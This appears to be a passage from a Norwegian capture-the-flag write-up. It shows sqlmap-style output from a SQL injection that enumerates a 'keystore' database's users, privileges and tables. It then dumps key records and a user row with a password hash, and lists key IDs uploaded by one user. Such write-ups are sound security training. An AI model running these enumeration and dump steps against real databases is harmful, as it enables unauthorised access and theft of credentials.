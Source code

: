 ~~~bash
--users
[*] 'keystore'@'%'

--passwords
No results.

--privileges 
privilege: USAGE

--roles
role: USAGE

--dbs
information_schema
keystore

-D keystore --tables
[3 tables]
+-----------------+
| keystore        |
| user_key_upload |
| userstore       |
+-----------------+

-D keystore --dump
actual key id 17693
uploaded:  
key_id, user_id, time
17693,20524,1083438277
user uploaded:
user_id,user_name,user_password
20524,Elliot Alderson,014aedf1bc63277183ae5034c023c8ba
~~~
## Whats next?
Vi fikk litt mer informasjon:
    Vi har indikasjoner på at aktørens kryptonøkkel-generator har en bakdør. Kan du undersøke videre?

Her gikk jeg litt i alle retninger før jeg fant ut hvor jeg skulle videre.
Litt mer SQL injection.
same user has uploaded several keys:
~~~bash
12072,20524,1555605348
13941,20524,986626492
14074,20524,1291346859
14347,20524,1410200316
15572,20524,1111329525
15887,20524,1332499533
16048,20524,1026833399
16986,20524,1437342107
17245,20524,1072842646
17462,20524,1529238164
17693,20524,1083438277
18008,20524,1176764506
18358,20524,1236242269
18407,20524,1098316055
18435,20524,1100795486
18456,20524,1111066872
18617,20524,1359818045
18813,20524,1304052798
18876,20524,1237690662
19044,20524,1010123619
19408,20524,959551014
~~~